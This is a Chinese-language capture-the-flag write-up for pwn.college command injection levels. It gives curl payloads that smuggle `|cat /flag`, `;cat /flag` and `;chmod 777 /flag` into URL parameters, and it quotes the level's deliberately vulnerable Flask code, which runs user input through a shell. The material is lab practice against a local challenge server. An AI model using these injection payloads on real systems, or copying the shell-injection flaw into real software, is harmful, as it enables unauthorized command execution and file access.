 ## CMDi 2

这个不是利用`;`了，是利用 `|`将前面一个命令的执行结果作为下一个命令的初始输入。

`curl http://challenge.localhost/?directory=/%7ccat%20/flag`

## CMDi 3

跟SQL注入有点像，拼接闭合字符串。

`curl http://challenge.localhost/?directory=/%27%20%3bcat%20%27/flag`

## CMDi 5

这一关只告诉你执行的指令是什么？但并没有指令的回显。那可以修改flag文件的权限，然后自己查看。

`curl http://challenge.localhost/?filepath=1%3bchmod%20777%20/flag`

```python
#!/opt/pwn.college/python

import subprocess
import flask
import os

app = flask.Flask(__name__)

@app.route("/", methods=["GET", "POST"])
def challenge():
    filepath = flask.request.args.get("filepath", "/challenge")
    command = f"touch {filepath}"
    print(f"DEBUG: {command=}")
    subprocess.run(
        command,                    # the command to run
        shell=True,                 # use the shell to run this command
        stdout=subprocess.PIPE,     # capture the standard output
        stderr=subprocess.STDOUT,   # 2>&1
        encoding="latin"            # capture the resulting output as text
    )

    return f"""
        <html><body>
        Welcome to the touch service! Please choose a file to touch:
        <form><input type=text name=filepath><input type=submit value=Submit></form>
        <hr>
        <b>Ran the command: touch {filepath}</b>
        </body></html>
        """

os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
port = 8080 if os.geteuid() else 80
app.config['SERVER_NAME'] = f"challenge.localhost:{port}"
app.run("challenge.localhost", port)

```

